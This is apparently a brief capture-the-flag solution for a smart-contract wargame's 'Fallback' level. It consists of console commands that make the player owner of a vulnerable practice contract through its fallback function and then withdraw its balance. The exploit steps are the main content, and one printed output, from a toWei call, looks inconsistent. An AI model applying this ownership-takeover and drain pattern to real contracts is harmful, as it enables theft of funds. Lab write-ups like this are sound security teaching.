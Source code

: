# Fallback

Use of the fallback method.

```
> await contract.owner() == player
false

> await contract.contribute({ from: player, value: 1 })

> web3.utils.toWei(await contract.getContribution())
'1'

> await contract.sendTransaction({ from: player, value: 1 })

> await contract.owner() == player
true

> await contract.withdraw()

> web3.utils.toWei(await getBalance(contract.address))
'0'
```

Level completed.
